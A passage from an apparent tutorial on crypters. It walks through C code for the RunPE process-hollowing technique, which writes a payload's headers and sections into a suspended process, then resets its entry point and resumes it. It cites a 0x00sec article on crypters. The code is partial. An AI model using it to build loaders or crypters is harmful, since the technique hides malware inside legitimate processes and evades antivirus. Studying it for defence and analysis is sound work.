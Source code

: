 ```c
VOID RunPE(VOID) {
    ...

    // write header
    WriteProcessMemory(pi.hProcess, (LPVOID)pinh->OptionalHeader.ImageBase, Shellcode, pinh->OptionalHeader.SizeOfHeaders, NULL);

    // write each section
    int i;
    for (i = 0; i < pinh->FileHeader.NumberOfSections; i++) {
        // calculate and get ith section
        PIMAGE_SECTION_HEADER pish = (PIMAGE_SECTION_HEADER)((DWORD)Shellcode + pidh->e_lfanew + sizeof(IMAGE_NT_HEADERS) + sizeof(IMAGE_SECTION_HEADER) * i);
        // write section data
        WriteProcessMemory(pi.hProcess, (LPVOID)(lpBaseAddress + pish->VirtualAddress), (LPVOID)((DWORD)Shellcode + pish->PointerToRawData), pish->SizeOfRawData, NULL);
    }

}
```

Now that everything is in place, we will simply modify the context’s address of entry point and then resume the suspended thread.

```c
VOID RunPE(VOID) {
    ...
 
    // set appropriate address of entry point
    ctx.Eax = pinh->OptionalHeader.ImageBase + pinh->OptionalHeader.AddressOfEntryPoint;
    SetThreadContext(pi.hThread, &ctx);
 
    // resume and execute our application
    ResumeThread(pi.hThread);
}
```

---
## References

### 0x00sec

- [0x00sec: Crypters - Instruments of the Underground](https://0x00sec.org/t/crypters-instruments-of-the-underground/386)